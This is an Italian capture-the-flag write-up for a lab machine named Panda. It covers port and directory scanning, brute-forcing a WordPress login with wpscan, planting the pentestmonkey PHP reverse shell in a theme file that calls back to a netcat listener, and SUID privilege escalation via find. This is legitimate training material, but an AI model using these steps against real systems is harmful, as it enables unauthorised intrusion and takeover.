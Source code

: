# PANDA

partiamo con lo scan delle porte

### ENUM

```bash
nmap panda.thm -sV -sC 
```

ottimo abbiamo la porta 80 aperta quindi una pagina web andiamo a controllarla

nulla di interessante solo un immagine

facciamo una ricerca delle directory

```bash
gobuster dir -u http://panda.thm/ -w /usr/share/wordlists/dirb/big.txt
```

interessante abbiamo la directory con  /Wordpress

guardiamo cosa c'è
```bash
http://panda.thm/wordpress
```
se c'è un pagina wordpress c'è un login quasi il 99% delle volte se non il 100%

controlliamo 
```bash
http://panda.thm/wordpress/wp-login.php
```

eccola 

facciamo uno scan insieme al brute force con WPSCAN
```bash
wpscan --url http://panda.thm/wordpress/wp-login.php --passwords /usr/share/wordlists/rockyou.txt
```

ecco qua il nostro utente po

accediamo alla pagina
## REVERSE SHELL
(spiegazione)
per chi avesse già esperienza con wordpress saltare questa spiegazione invece per chi non avesse mai visto questo CMS ci sono delle fasi che dovete imparare
wordpress lavora principalmente a pagine sotto pagine e temi molti di quest'ultimi sono vulnerabili perchè vanno ad aggiungere codice che potrebbe non essere controllato o che può avere insicurezze del codice 
quello che andrò a fare nei passaggi successivi userà un vulnerabilità del non controllo del codice.
(spiegazione)

su word press per andare a modificare i vari path del cms c'è un menu a tendina sulla destra. bene apritelo e andate nella sezione APPARENCE una volta fatto click vi si dovrebbe aprire un sotto menu con varie opzioni 
andate a selezionare editor e successivamente vi si apre un menu sulla pagina (sulla destra) andate in questo menu e selezionate la sezione comment.php
tramite questa sezione vi si apre un editor a schermo di questa pagina cancellate qualsiasi cosa ci sia scritta sopra in modo da rendere la pagina vuota e aggiungete una reverse shell (vi consiglio https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
ricardate di cambiare nel php questi valori 
```bash
$ip = '127.0.0.1';  // CHANGE THIS 
$port = 1234;       // CHANGE THIS
```
mettete il vostro ip e la vostra porta dove ascolterete il traffico 

ottimo salvate questa pagina con l'apposito tasto.


ottimo ora avviamo l'ascolto sulla nostra macchina
```bash
nc -lvnp porta scelta nel php
es. nc -lvnp 1234
```
ora tutto è pronto.

chiamiamo il nostro php tramite url (provate ad indovinare quale è l'url) (hint: ricardatevi dove avete salvato il php)

ecco qua che si avvia la nostra shell con l'utente shifu facciamo privesc
## PRIVESC

```bash
find / -perm -4000 2>/dev/null
```

interessante abbiamo una vulnerabilità di tipo suid su find controllate GTFO.BINS per avere i privilegi di root




